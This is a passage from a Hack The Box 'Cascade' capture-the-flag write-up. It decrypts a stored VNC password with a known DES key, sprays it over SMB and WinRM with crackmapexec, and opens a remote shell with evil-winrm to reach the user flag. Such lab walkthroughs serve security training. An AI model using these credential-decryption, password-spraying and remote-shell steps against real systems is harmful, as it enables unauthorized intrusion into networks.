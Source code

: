 We could use this data to decrypt the password : https://github.com/frizb/PasswordDecrypts
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```

We see that the credential is valid against the user `s.smith`.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec smb 10.10.10.182 -u users.lst -p sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # crackmapexec winrm 10.10.10.182 -u users.lst -p sT333ve2 
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\CascGuest:sT333ve2
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\arksvc:sT333ve2
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

We also see that we have `winrm` enabled on the user. So, We may do an `evil-winrm` to get a shell on the box.

# Initial FootHold as s.smith
```python
┌─[Magisk@Xyan1d3]─[10.10.14.23]─[~/htb/cascade]
└──╼ # evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2 

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> whoami
cascade\s.smith
```
![[Pasted image 20210720124208.png]]

## Getting the User Flag
```python
*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> ls


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/19/2021   7:06 PM             34 user.txt
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk


*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
```